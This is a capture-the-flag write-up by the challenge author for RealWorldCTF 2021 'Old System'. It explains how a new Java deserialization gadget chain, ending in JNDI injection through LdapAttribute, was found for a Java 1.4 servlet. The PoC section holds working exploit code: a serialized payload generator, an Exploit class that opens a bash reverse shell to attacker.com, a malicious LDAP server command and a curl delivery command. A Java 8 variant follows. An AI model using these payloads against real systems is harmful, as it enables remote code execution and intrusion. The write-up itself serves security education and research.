# RealWolrdCTF 2021 Old System Writeup

Author: Voidfyoo of Chaitin Tech

## Overview

In 2021 RealWorldCTF (also referred to as RWCTF), I made a Java deserialization challenge named `Old System`. Players need to exploit the deserialization vulnerability in the environment of java 1.4.

You might think: "What? Java 1.4? This is too old, it's almost 20 years ago". In fact, this challenge is modified based on a real system I encountered in a penetration test last year. The key of this challenge is to examine the players' understanding of the Java deserialization exploit gadget chain and the ability to mine new gadget chains. If you are interested, please continue reading.


## Challenge Analysis

### Start the game!

The description of `Old System` challenge is as follows：

```
How to exploit the deserialization vulnerability in such an ancient Java environment ?

Java version: 1.4.2_19
```

The java version is specified in the description, and the webapp war is provided in the attachment:




Only one servlet is defined in `WEB-INF/web.xml`:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!--
  Copyright 2004 The Apache Software Foundation

  Licensed under the Apache License, Version 2.0 (the "License");
  you may not use this file except in compliance with the License.
  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->

<web-app xmlns="http://java.sun.com/xml/ns/j2ee"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd"
    version="2.4">

  <display-name>Tomcat Demo Webapp</display-name>
  <description>Tomcat Demo Webapp</description>


    <servlet>
        <servlet-name>org.rwctf.ObjectServlet</servlet-name>
        <servlet-class>org.rwctf.ObjectServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>org.rwctf.ObjectServlet</servlet-name>
        <url-pattern>/object</url-pattern>
    </servlet-mapping>


</web-app>
```

The request access path mapped by this servlet is `/object`, and the corresponding class is `ObjectServlet`:

```Java
package org.rwctf;

import java.io.File;
import java.io.IOException;
import java.io.PrintWriter;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;
import javax.servlet.ServletConfig;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class ObjectServlet extends HttpServlet {
    private ClassLoader appClassLoader;

    public ObjectServlet() {
    }

    public void init(ServletConfig var1) throws ServletException {
        super.init(var1);
        String var2 = var1.getServletContext().getRealPath("/");
        File var3 = new File(var2 + File.separator + "WEB-INF" + File.separator + File.separator + "lib");
        if (var3.exists() && var3.isDirectory()) {
            File[] var4 = var3.listFiles();
            if (var4 != null) {
                URL[] var5 = new URL[var4.length + 1];

                for(int var6 = 0; var6 < var4.length; ++var6) {
                    if (var4[var6].getName().endsWith(".jar")) {
                        try {
                            var5[var6] = var4[var6].toURI().toURL();
                        } catch (MalformedURLException var9) {
                            var9.printStackTrace();
                        }
                    }
                }

                File var10 = new File(var2 + File.separator + "WEB-INF" + File.separator + File.separator + "classes");
                if (var10.exists() && var10.isDirectory()) {
                    try {
                        var5[var5.length - 1] = var10.toURI().toURL();
                    } catch (MalformedURLException var8) {
                        var8.printStackTrace();
                    }
                }

                this.appClassLoader = new URLClassLoader(var5);
            }
        }

    }

    protected void doPost(HttpServletRequest var1, HttpServletResponse var2) throws ServletException, IOException {
        PrintWriter var3 = var2.getWriter();
        ClassLoader var4 = Thread.currentThread().getContextClassLoader();
        Thread.currentThread().setContextClassLoader(this.appClassLoader);

        try {
            ClassLoaderObjectInputStream var5 = new ClassLoaderObjectInputStream(this.appClassLoader, var1.getInputStream());
            Object var6 = var5.readObject();
            var5.close();
            var3.print(var6);
        } catch (ClassNotFoundException var10) {
            var10.printStackTrace(var3);
        } finally {
            Thread.currentThread().setContextClassLoader(var4);
        }

    }
}

```

Note that the HTTP request body part is deserialized in the `doPost` method of the `ObjectServlet` class, so there is a deserialization vulnerability.

When designing this challenge, in order to ensure the difficulty, I designed a `URLClassLoader` (that is, the `appClassLoader` field of the `ObjectServlet` class) for the entire deserialization process. The purpose is to limit the classes that can be loaded by deserialization within the scope of the JRE standard library and the current webapp (`/WEB-INF/classes`, `/WEB-INF/lib/`), players are not allowed to consider Tomcat's global dependency library. The design purpose of the `ClassLoaderObjectInputStream` class is also the same:


```Java
package org.rwctf;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.io.StreamCorruptedException;
import java.lang.reflect.Proxy;

public class ClassLoaderObjectInputStream extends ObjectInputStream {
    private final ClassLoader classLoader;

    public ClassLoaderObjectInputStream(ClassLoader var1, InputStream var2) throws IOException, StreamCorruptedException {
        super(var2);
        this.classLoader = var1;
    }

    protected Class resolveClass(ObjectStreamClass var1) throws IOException, ClassNotFoundException {
        return Class.forName(var1.getName(), false, this.classLoader);
    }

    protected Class resolveProxyClass(String[] var1) throws IOException, ClassNotFoundException {
        Class[] var2 = new Class[var1.length];

        for(int var3 = 0; var3 < var1.length; ++var3) {
            var2[var3] = Class.forName(var1[var3], false, this.classLoader);
        }

        return Proxy.getProxyClass(this.classLoader, var2);
    }
}
```

### Ysoserial gadget analysis

Ok, now it is clear that this challenge is a deserialization vulnerability. The range of classes that can be loaded by deserialization is the JRE standard library, `/WEB-INF/lib/` and `/WEB-INF/classes/` jar/class.

There are 4 jar packages in the `/WEB-INF/lib/` directory:




If you know about Java deserialization vulnerabilities, then you must know ysoserial, a Java deserialization exploit tool. Ysoserial has integrated a lot of Java deserialization gadget chain payload, here is the source code address of this project: https://github.com/frohoff/ysoserial

You can directly run ysoserial to see which gadget chain payload can be generated:




Experienced players should directly notice the two libraries `commons-collections` and `commons-beanutils`. The usage of these two libraries is very extensive, and we often deal with them whether it is penetration testing or code auditing. So at first glance, you might think that these two libraries happen to exist in the webapp dependencies, so just pick one and break through?

But you should note that this system is very old, so in fact its dependent library version is also very old.

For example, the version of the `commons-collections` library is 2.1




The core of the `commons-collections` library's deserialization gadget chain lies in `Transformer`, such as `InvokerTransformer` or `InstantiateTransformer`, but these classes do not exist in the 2.1 version of the `commons-collections` library:




Therefore, the gadget chain of the `CommonsCollections` series in ysoserial definitely does not work.

Now let's look at `CommonsBeanutils`.

Some novices may be confused by the dependency library version of the gadget chain marked in ysoserial, thinking that a certain chain can only work under the corresponding marked dependency version, which is not the case. Like the `CommonsBeanutils1` chain in ysoserial, the dependency version marked by the author is:

```
commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
```

But these versions actually reflect only the library version used by the author of ysoserial when writing and using them, and the actual scope of influence may not be limited to this. Therefore, before rushing to draw specific conclusions on the dependency version, let's take a look at how this chain is constructed in the source code in ysoserial:

```Java
package ysoserial.payloads;

import java.math.BigInteger;
import java.util.PriorityQueue;

import org.apache.commons.beanutils.BeanComparator;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

@SuppressWarnings({ "rawtypes", "unchecked" })
@Dependencies({"commons-beanutils:commons-beanutils:1.9.2", "commons-collections:commons-collections:3.1", "commons-logging:commons-logging:1.2"})
@Authors({ Authors.FROHOFF })
public class CommonsBeanutils1 implements ObjectPayload<Object> {

	public Object getObject(final String command) throws Exception {
		final Object templates = Gadgets.createTemplatesImpl(command);
		// mock method name until armed
		final BeanComparator comparator = new BeanComparator("lowestSetBit");

		// create queue with numbers and basic comparator
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
		// stub data for replacement later
		queue.add(new BigInteger("1"));
		queue.add(new BigInteger("1"));

		// switch method called by comparator
		Reflections.setFieldValue(comparator, "property", "outputProperties");

		// switch contents of queue
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = templates;

		return queue;
	}

}
```

After careful analysis of the construction principle of the `CommonsBeanutils1` chain, you will find that the core of this chain is the class `org.apache.commons.beanutils.BeanComparator`, which implements both the `Comparator` and `Serializable` interfaces, and when comparing, a specific getter method will be called on the passed comparison object:

`commons-beanutils-1.9.3.jar!/org/apache/commons/beanutils/BeanComparator.class`



Then ysoserial `CommonsBeanutils1` is constructed with `PriorityQueue` as the entrance of the gadget chain. `PriorityQueue`'s constructor can accept a `Comparator` instance object as a parameter to construct, and then use this `Comparator.compare` method to sort the objects in the queue during deserialization. Therefore, the first half of the chain call process is:

```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
    PriorityQueue.heapify()
    PriorityQueue.siftDown()
    PriorityQueue.siftDownUsingComparator()
        BeanComparator.compare()
```

After the first half of the ysoserial `CommonsBeanutils1` chain can be executed to the `BeanComparator.compare` method, the second half is to find a serializable class whose getter method can trigger dangerous and sensitive operations. The publicly available gadget chains in the JRE libraries include `TemplatesImpl` and `JdbcRowSetImpl`, and their getter methods can trigger RCE:

* `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties`: load custom bytecode and instantiate it to execute arbitrary Java code
* `com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData`: trigger JNDI injection, can also execute arbitrary Java code


The ysoserial `CommonsBeanutils1` source code uses `TemplatesImpl`, so the entire deserialization gadget chain call process is:

```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
    PriorityQueue.heapify()
    PriorityQueue.siftDown()
    PriorityQueue.siftDownUsingComparator()
        BeanComparator.compare()
            PropertyUtils.getProperty()
                PropertyUtilsBean.getProperty()
                PropertyUtilsBean.getNestedProperty()
                PropertyUtilsBean.getSimpleProperty()
                PropertyUtilsBean.invokeMethod()
                    TemplatesImpl.getOutputProperties()
                    TemplatesImpl.newTransformer()
                    TemplatesImpl.getTransletInstance()
                        TransletClassLoader.defineClass()
                    Class.newInstance()
                        Runtime.getRuntime().exec(command)
```


### Dilemma under Java 1.4

After analyzing the gadget chain source code of ysoserial `CommonsBeanutils1`, we turned our eyes back to this challenge. First, you need to confirm whether the core class `BeanComparator` exists.

What's not bad is that although the `commons-beanutils` dependency version used in the challenge is 1.6, which is considered a very old version, the core class `BeanComparator` does exist. Although the code of the compare method has been slightly changed, it is still possible to execute the specific getter method of the compared object:




After confirming the existence of the `BeanComparator` core class, let's confirm that the rest of the `CommonsBeanutils` gadget chain.


**Here comes the most interesting part of this challenge, because you will be surprised to find that there is no `PriorityQueue` class in the Java 1.4 environment (this class plays the role of "entry" in the `CommonsBeanutils` gadget chain structure). Not only there is no `PriorityQueue` class, but also `TemplatesImpl` and `JdbcRowSetImpl` (these two classes play the role of "export" in the `CommonsBeanutils` gadget chain to achieve the final arbitrary code execution)!**


This is equivalent to a link with three nodes. The ingress and egress nodes appear to be broken, leaving only the middle node to be used. How to repair it?

### From readObject to BeanComparator.compare

Don't worry, let's try to restore the idea of the original author frohoff of ysoserial `CommonsBeanutils1` when building this gadget chain. As the entrance to the gadget chain, the original author used `PriorityQueue`. The so-called deserialization is to restore data to objects, so if you want to get an object instance of the `PriorityQueue`, sorting operations will inevitably be carried out during the deserialization process. In the sorting process, the `Comparator` interface class is very likely to be used to compare the data object in the data structure.

According to this idea, although `PriorityQueue` does not exist in Java 1.4, there are definitely other data structures involved in sorting and comparison.

According to the communication with the players after the ctf, some players have actually found out the way to the `Comparator.compare` method. There is more than one way. Here I give the method I found when solving this problem. The call stack from the entry to `BeanComparator.compare` is as follows:

```
java.util.HashMap#readObject
java.util.HashMap#putForCreate
java.util.HashMap#eq
    java.util.AbstractMap#equals
        java.util.TreeMap#get
        java.util.TreeMap#getEntry
            org.apache.commons.beanutils.BeanComparator#compare
```


The key is `TreeMap`. Just like `PriorityQueue`, `TreeMap` also accepts a `Comparator` instance as a parameter of the constructor, and then when the `TreeMap.get` method is invoked, the `Comparator.compare` method is triggered.

So the key is to find another class, which can trigger `Map.get` when it is deserialized, so that you can go to `TreeMap.get`.

Here I noticed that there is a call to the `Map.get` method in the `AbstractMap.equals` method:

`java.util.AbstractMap#equals`



This is very logical, because when two Map objects are compared for equality, the Map key will also be taken out for comparison.

`HashMap` will call the `putForCreate` method when deserializing:

`java.util.HashMap#putForCreate`



In the `putForCreate` method, when the hashes of the two key objects to be compared are the same, the equality comparison call will be entered. The problem of hash judgment can be solved by creating two objects with exactly the same structure but different reference addresses. such as:

```Java
TreeMap treeMap1 = new TreeMap(comparator);
treeMap1.put(payloadObject, "aaa");
TreeMap treeMap2 = new TreeMap(comparator);
treeMap2.put(payloadObject, "aaa");
HashMap hashMap = new HashMap();
hashMap.put(treeMap1, "bbb");
hashMap.put(treeMap2, "ccc");
```

So this completes the call from the deserialization entry readObject to the BeanComparator.compare method!

### From BeanComparator.compare to RCE

Many players have actually completed the step from `readObject` to the `BeanComparator.compare` method call, but in the end they are all stuck on finding the final RCE gadget class. This part is the biggest difficulty of this challenge. Players need to search for classes that meet the following conditions in the entire Java 1.4 JRE libraries:

* It implements the Serializable interface;
* A sensitive and dangerous operation was performed in one of its getter methods.

Specifically, for the getter method, first the modifier needs to be public, and then the method name starts with `get` and has no parameters.

The public gadget classes `TemplatesImpl` and `JdbcRowSetImpl` are not available in the Java 1.4 version, so if you want to solve this problem, there is no shortcut, only to mine new chains.

Searching the Java 1.4 JRE libraries according to these conditions, in fact, there are still many results. And to finally find a gadget chain that meets the conditions and can complete the RCE within two days in such a large range, I think experience, skill, patience, and care are indispensable.

In fact, the gadget chain I finally found was also very unobvious. I once wanted to give up, thinking that this class could not be used, but in the end, it turned out that the problem was solved after many debugging!

To reveal my expected solution directly, it is `com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition`.

The code of the `com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition` method is as follows:



In the `LdapAttribute.getAttributeDefinition()` method, it first calls the `getBaseCtx()` method to create an `InitialDirContext` object, and it will use the `baseCtxURL` attribute to fill in `java.naming.provider.url`. During the deserialization process, the value of the `baseCtxURL` attribute is actually controllable (we can freely specify it during serialization), so this is equivalent to allowing the attacker to directly specify the JNDI connection address:

`com.sun.jndi.ldap.LdapAttribute#getBaseCtx`




According to the conditions of the JNDI injection attack, now that the address of the JNDI connection is controllable, then find a way to trigger the `InitialContext.lookup` method.

At first I always thought that I would trigger JNDI injection at the lookup in the line of code `(DirContext)var1.lookup("AttributeDefinition/" + this.getID())`, but after many attempts, I did not succeed because of this `lookup` method is actually `HierMemDirCtx.lookup`, and `HierMemDirCtx` is not a subclass of `InitialContext`.

When I found that the method of `HierMemDirCtx.lookup` could not perform JNDI injection, I temporarily gave up for a while and turned to analyze other gadget classes. But after I audited all the possible classes, I felt that there was nothing to left, so I had to look back and continue to bite the bullet and analyze. In the end, it turns out that to trigger JNDI injection, it is not necessary to use the `InitialContext.lookup` method as the entry point!

Taking the LDAP protocol as an example of JNDI injection, the call stack of the `InitialContext.lookup` method is:

```
javax.naming.InitialContext#lookup(java.lang.String)
-> com.sun.jndi.url.ldap.ldapURLContext#lookup(java.lang.String)
-> com.sun.jndi.toolkit.url.GenericURLContext#lookup(java.lang.String)
-> com.sun.jndi.toolkit.ctx.PartialCompositeContext#lookup(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_lookup
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> ......
```

Therefore, if the `LdapCtx.c_lookup` method can be executed directly, and the JNDI address is controllable, the same vulnerability exploit effect as JNDI injection can be achieved.

Here, by constructing and using the payload, the call stack can be made as follows:

```
com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
-> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
-> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
-> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> ......
```

Therefore, JNDI injection can be performed to implement RCE.


### PoC

PoC for generating the serialized payload:

```Java
import org.apache.commons.beanutils.BeanComparator;

import javax.naming.CompositeName;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.TreeMap;

public class PayloadGenerator {

    public static void main(String[] args) throws Exception {

        String ldapCtxUrl = "ldap://attacker.com:1389";
        
        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                new Object[] {"name"});

        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));
        
        // Generate payload
        BeanComparator comparator = new BeanComparator("class");
        TreeMap treeMap1 = new TreeMap(comparator);
        treeMap1.put(ldapAttribute, "aaa");
        TreeMap treeMap2 = new TreeMap(comparator);
        treeMap2.put(ldapAttribute, "aaa");
        HashMap hashMap = new HashMap();
        hashMap.put(treeMap1, "bbb");
        hashMap.put(treeMap2, "ccc");

        Field propertyField = BeanComparator.class.getDeclaredField("property");
        propertyField.setAccessible(true);
        propertyField.set(comparator, "attributeDefinition");

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("object.ser"));
        oos.writeObject(hashMap);
        oos.close();

    }

}
```

Note that PoC must be run under the dependencies given by Java 1.4 and the challenge environment, otherwise serialVersionUID inconsistencies may occur during deserialization.

The entire payload deserialization call stack is:

```
java.io.ObjectInputStream#readObject
-> java.util.HashMap#readObject
-> java.util.HashMap#putForCreate
-> java.util.HashMap#eq
-> java.util.AbstractMap#equals
-> java.util.TreeMap#get
-> java.util.TreeMap#getEntry
-> java.util.TreeMap#compare
-> org.apache.commons.beanutils.BeanComparator#compare
-> org.apache.commons.beanutils.PropertyUtils#getProperty
-> org.apache.commons.beanutils.PropertyUtils#getNestedProperty
-> org.apache.commons.beanutils.PropertyUtils#getSimpleProperty
-> java.lang.reflect.Method#invoke
-> com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
-> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
-> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
-> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> JNDI Injection RCE
```

Exploit steps:

Compile the following `Exploit.java` file under the environment of Java 1.4 to get `Exploit.class` file, which is used to execute the command of the reverse shell to port 6666 of the attacker.com host:

```Java
import java.util.Hashtable;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class Exploit
implements ObjectFactory {
    public Object getObjectInstance(Object object, Name name, Context context, Hashtable hashtable) throws Exception {
        Runtime.getRuntime().exec(new String[]{"bash", "-c", "sh -i >& /dev/tcp/attacker.com/6666 0>&1"});
        return null;
    }
}
```

Put the obtained `Exploit.class` on the http server, for example, the URL is `http://attacker.com/Exploit.class`

Then run marshalsec to start a malicious ldap service (marshalsec can be run with java 8):

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://attacker.com/#Exploit" 1389
```

Finally, the malicious serialized data `object.ser` obtained by the previous PoC operation is passed to the `/object` http interface of the challenge, and the exploit can be completed and the reverse shell is obtained:

```
curl http://challenge_address:28080/object --data-binary @object.ser
```




## Think more

Later, I found that the class `com.sun.jndi.ldap.LdapAttribute` is also available in Java 8, so the JNDI injection of this gadget chain is also applicable to Java 8:

```Java
import javax.naming.CompositeName;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class PayloadTest {

    public static void main(String[] args) throws Exception {


        String ldapCtxUrl = "ldap://attacker.com:1389";

        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                new Object[] {"name"});

        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));

        Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition", new Class[] {});
        getAttributeDefinitionMethod.setAccessible(true);
        getAttributeDefinitionMethod.invoke(ldapAttribute, new Object[] {});

    }

}
```

So if I am not mistaken, it should also be considered as a new getter RCE gadget ;)


## References

* https://github.com/frohoff/ysoserial
* https://github.com/mbechler/marshalsec
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf


